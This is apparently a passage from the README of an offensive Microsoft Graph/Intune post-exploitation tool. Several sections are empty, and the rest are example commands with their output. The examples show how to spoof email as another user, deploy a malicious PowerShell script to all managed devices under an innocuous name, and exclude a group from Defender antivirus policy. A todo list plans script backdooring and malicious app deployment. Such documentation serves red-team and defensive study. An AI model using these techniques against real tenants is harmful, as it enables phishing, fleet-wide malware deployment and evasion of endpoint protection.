Name                                       DNS   MX    SPF    DMARC   DKIM   MTA-STS  Type        STS
----                                       ---   ---   ----   -----   ----   -------  ----        ---
company.com                                False False False  False   False  False    Federated   sts.company.com
company.onmicrosoft.com                    True  True  True   False   True   False    Managed
================================================================================
```

## Get-GraphTokens


## Invoke-ESTSCookieToAccessToken



## Get-User


## List-SharePointRoot


## Invite-GuestUser




## Assign-PrivilegedRole



## Spoof-OWAEmailMessage

> Mail.Send permission REQUIRED

Options:
1. Compromise an application with Mail.Send permission assigned then use `Spoof-OWAEmailMessage`
2. Comprise user with Global Admin, Application Admin, Cloud Admin role or assign role to an existing owned user with `Assign-PrivilegedRole` -> then add password and Mail.Send permission to app -> auth as app service principal and use `Spoof-OWAEmailMessage`

#### Example:
```
# graphpython.py --command spoof-owaemailmessage --token .\token --id useremail.tospoof@company.com
```
#### Output:
```
[*] Spoof-OWAEmailMessage
================================================================================

Enter Subject: Spoofed subject
Enter Body Content: Spoofed message content
Enter toRecipients (comma-separated): target.user@company.com
Enter ccRecipients (comma-separated): cc.user@company.com
Save To Sent Items (true/false): false

[+] Email sent successfully
================================================================================
```

## Get-DeviceConfigurationPolicies
#### Example:
```
# graphpython.py --command get-deviceconfigurationpolicies --token .\intune --select name,id,templateReference
```
#### Output:
```
[*] Get-DeviceConfigurationPolicies
================================================================================
id : de62414d-3a2f-4fcf-abdd-d9e1a56c034e
name : ASR - Default Profile
templateReference : {'templateId': 'e8c053d6-9f95-42b1-a7f1-ebfd71c67a4b_1', 'templateFamily': 'endpointSecurityAttackSurfaceReduction', 'templateDisplayName': 'Attack Surface Reduction Rules', 'templateDisplayVersion': 'Version 1'}
assignmentTarget : {'@odata.type': '#microsoft.graph.allDevicesAssignmentTarget', 'deviceAndAppManagementAssignmentFilterId': None, 'deviceAndAppManagementAssignmentFilterType': 'none'}

id : 2d555a7f-eefd-41f8-8429-a2a1c7532b49
name : Bitlocker - profile
templateReference : {'templateId': '46ddfc50-d10f-4867-b852-9434254b3bff_1', 'templateFamily': 'endpointSecurityDiskEncryption', 'templateDisplayName': 'BitLocker', 'templateDisplayVersion': 'Version 1'}
assignmentTarget : {'@odata.type': '#microsoft.graph.allDevicesAssignmentTarget', 'deviceAndAppManagementAssignmentFilterId': None, 'deviceAndAppManagementAssignmentFilterType': 'none'}


id : b1076055-6074-4176-a561-08590c1793b0
name : Defender - Policy
templateReference : {'templateId': '804339ad-1553-4478-a742-138fb5807418_1', 'templateFamily': 'endpointSecurityAntivirus', 'templateDisplayName': 'Microsoft Defender Antivirus', 'templateDisplayVersion': 'Version 1'}
assignmentTarget : {'@odata.type': '#microsoft.graph.allDevicesAssignmentTarget', 'deviceAndAppManagementAssignmentFilterId': None, 'deviceAndAppManagementAssignmentFilterType': 'none'}
================================================================================
```

## Display-AVPolicyRules

> NOTE the `templateDisplayName` output in `Get-DeviceConfigurationPolicies` for use with Display-AVPolicyRules, Display-ASR...




## Get-ScriptContent


## Deploy-MaliciousScript
#### Example:
```
# graphpython.py --command deploy-maliciousscript --token .\intune --script malicious.ps1
```
#### Output:
```
[*] Deploy-MaliciousScript
================================================================================

Enter Script Display Name: Config script
Enter Script Description: Device config update

[+] Script created successfully
Script ID: b024deb4-e48b-42e0-b9ac-625e2bb41042

[+] Script assigned to all devices
================================================================================
```

## Add-ExclusionGroupToPolicy
#### Example:
```
# graphpython.py --command display-avpolicyrules --id 0b98128f-d1ac-4a5a-9add-303d27ad5616 --token .\intune

[*] Display-AVPolicyRules
================================================================================
Excluded extensions : .ps1
Excluded paths : C:\programdata
Excluded processes : C:\WINDOWS\Explorer.EXE
================================================================================
```
Add an exclusion group to the Microsoft Defender Antivirus exclusions policy above:
```
# graphpython.py --command add-exclusiongrouptopolicy --id 0b98128f-d1ac-4a5a-9add-303d27ad5616 --token .\intune

[*] Add-ExclusionGroupToPolicy
================================================================================

Enter Group ID To Exclude: 46a6f18e-e243-492d-ae24-f5f301dd49bb

[+] Excluded group added to policy rules
================================================================================
```
#### Output:

Verify the changes have been applied:
```
# graphpython.py --command get-deviceconfigurationpolicies --token .\intune --select id,name

[*] Get-DeviceConfigurationPolicies
================================================================================
id : 0b98128f-d1ac-4a5a-9add-303d27ad5616
name : Defender Exclusions - Policy
assignmentTarget : {'@odata.type': '#microsoft.graph.exclusionGroupAssignmentTarget', 'deviceAndAppManagementAssignmentFilterId': None, 'deviceAndAppManagementAssignmentFilterType': 'none', 'groupId': '46a6f18e-e243-492d-ae24-f5f301dd49bb'}
assignmentTarget : {'@odata.type': '#microsoft.graph.allDevicesAssignmentTarget', 'deviceAndAppManagementAssignmentFilterId': None, 'deviceAndAppManagementAssignmentFilterType': 'none'}
```
Note that assignmentTarget contains `exclusionGroupAssignmentTarget` and the supplied `'groupId': '46a6f18e-e243-492d-ae24-f5f301dd49bb'`


## Remove-GroupMember

Check the members of the target group:


Remove the group member by first supplying the groupid and object id to the --id flag:


Confirm that the object has been removed from the group:


<br>

## Acknowledgements and References

- [AADInternals](https://github.com/Gerenios/AADInternals)
- [GraphRunner](https://github.com/dafthack/GraphRunner)
- [TokenTactics](https://github.com/rvrsh3ll/TokenTactics)
- [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2)
- [https://learn.microsoft.com/en-us/graph/permissions-reference](https://learn.microsoft.com/en-us/graph/permissions-reference)
- [https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference)
- [https://graphpermissions.merill.net/](https://graphpermissions.merill.net/)
  

## Todo

- Update:
  - [ ] `Spoof-OWAEmailMessage` - add --email option containing formatted message as only accepts one line at the mo...
  - [ ] `Deploy-MaliciousScript` - add input options to choose runAsAccount, enforceSignatureCheck, etc. and more assignment options
- New:
  - [ ] `Grant-AdminConsent` - grant admin consent for requested/applied admin app permissions 
  - [ ] `Backdoor-Script` - first user downloads target script content then adds their malicious code, supply updated script as args, encodes then [patch](https://learn.microsoft.com/en-us/graph/api/intune-shared-devicemanagementscript-update?view=graph-rest-beta)
  - [ ] `Deploy-MaliciousWin32App` - use IntuneWinAppUtil.exe to package the EXE/MSI and deploy to devices
  - [ ] `Add-ApplicationCertificate` - similar to add-applicationpassword but gen and assign openssl cert to ent app
  - [ ] `Update/Deploy-Policy` - update existing rules for av, asr, etc. policy or deploy a new one with specific groups/devices
  - [ ] `Update-ManagedDevice` - update/patch existing managed device config, [check this](https://learn.microsoft.com/en-us/graph/api/intune-devices-manageddevice-update?view=graph-rest-beta)
  - [ ] `New-SignedJWT` - need to test this from sharpgraphview
- Options:
  - [ ] add functionality for chaining commands e.g. --command get-user, get-currentuser, get-groups
  - [ ] --proxy 
